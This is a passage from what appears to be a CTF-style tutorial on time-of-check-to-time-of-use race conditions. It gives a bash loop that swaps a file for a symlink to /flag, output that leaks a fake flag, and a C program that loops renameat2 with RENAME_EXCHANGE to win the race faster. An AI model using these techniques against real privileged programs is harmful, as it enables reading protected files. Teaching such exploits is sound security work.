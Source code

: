 {% code title="Terminal 2" %}
```bash
while true; do 
    echo 'Hello, world!' > file
    rm file
    ln -s /flag file
    rm file
done
```
{% endcode %}

Running both of these loops in separate terminal windows, we find inconsistent output like this with the flag every once in a while:

<pre data-title="Output"><code>...
cat: file: No such file or directory
cat: file: No such file or directory
Hello, world!
Error: File is a symlink.
<strong>CTF{f4k3_fl4g_f0r_t3st1ng}
</strong></code></pre>

### Faster Attempts - `RENAME_EXCHANGE`

The example above works pretty often because there is a while startup of the `cat` command between the check, and `open()`'ing the file. The window will not always be this big if the check and read happen within the same process for example. In such cases, the whole `while true` loop of creating a file, removing it, creating a symlink, and removing it will take too much time. A faster operation is **moving** a regular file in place, and then swapping it with a symlink file.&#x20;

You might try making more bash commands, but there actually exists a perfect **syscall** that **swaps two files**, by performing `renameat2` with the `RENAME_EXCHANGE` option. The two files given as arguments are then renamed to each other, which can be looped infinitely as fast as possible to get much faster speeds and a higher chance of success:

<pre class="language-c" data-title="swap.c"><code class="lang-c">#include &#x3C;stdio.h>
#include &#x3C;fcntl.h>
#include &#x3C;unistd.h>
#include &#x3C;sys/syscall.h>
#include &#x3C;linux/fs.h>

int main(int argc, char *argv[]) {
    if (argc != 3) {
        printf("Usage: %s &#x3C;file1> &#x3C;file2>\n", argv[0]);
        return 1;
    }

    while (1) {
<strong>        syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
</strong>    }

    return 0;
}
</code></pre>


[^1]: `0xe`